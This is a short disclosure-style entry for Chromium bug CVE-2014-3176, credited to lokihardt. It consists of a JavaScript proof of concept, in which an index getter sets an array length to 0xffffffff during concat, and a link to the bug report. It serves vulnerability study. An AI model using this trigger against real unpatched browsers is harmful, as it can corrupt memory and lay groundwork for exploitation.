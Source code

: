 # CVE-2014-3176

- Date: Jun 20
- Credit: lokihardt

## PoC

```javascript
a = [1];
b = [];
a.__defineGetter__(0, function () {
     b.length = 0xffffffff;
});

c = a.concat(b);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=386988)
